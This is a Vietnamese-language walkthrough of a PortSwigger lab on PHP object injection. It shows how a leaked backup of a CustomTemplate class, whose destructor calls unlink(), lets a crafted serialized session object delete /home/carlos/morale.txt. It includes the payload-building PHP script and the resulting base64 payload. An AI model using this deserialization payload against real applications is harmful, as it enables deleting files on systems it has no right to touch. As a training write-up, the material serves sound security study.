

# Arbitrary object injection in PHP

Source: Portswigger
Tools: Burpsuite
Technique: Arbitrary object injection, Deseirialization, serialization-based session mechanism
Fields: Web

## ***GOAL: C***reate and inject a malicious serialized object to delete the `morale.txt` file from Carlos's home directory

Sau khi đăng nhập, nhận thấy ứng dụng sử dụng serialization trong session:


Decode:



Quan sát mã nguồn front-end, ứng dụng đã để lộ đường dẫn tới tệp tin **`CustomTemplate.php`**, nhưng không thể truy cập:


Tuy nhiên file backup **`CustomTemplate.php~`** chưa bị xóa nên chúng ta có thể đọc được nội dung file:


Như vậy chúng ta có thông tin về lớp **`CustomTemplate`** của ứng dụng. Chú ý phương thức **`__destruct()`** của lớp này:

```php
function __destruct() {
    // Carlos thought this would be a good idea
    if (file_exists($this->lock_file_path)) {
        unlink($this->lock_file_path);
    }
}
```

Nếu tồn tại tệp tin có đường dẫn **`$this->lock_file_path`** sẽ thực hiện hàm **`unlink()`** xóa tệp tin này. Ý tưởng đã khá rõ ràng, nếu kẻ tấn công có thể lợi dụng quá trình deserialization của ứng dụng nhằm xóa bất kỳ tệp tin nào trong hệ thống nếu họ biết chính xác đường dẫn.

Xây dựng script tạo payload xóa tệp tin **`/home/carlos/morale.txt`** do bài lab yêu cầu:

```php
class CustomTemplate {
    private $template_file_path;
    private $lock_file_path = "/home/carlos/morale.txt";    
}

$payload = new CustomTemplate();
echo urlencode(base64_encode(serialize($payload)));
// TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MzQ6IgBDdXN0b21UZW1wbGF0ZQB0ZW1wbGF0ZV9maWxlX3BhdGgiO047czozMDoiAEN1c3RvbVRlbXBsYXRlAGxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ%3D%3D
```

Thay payload trên vào session và gửi tới server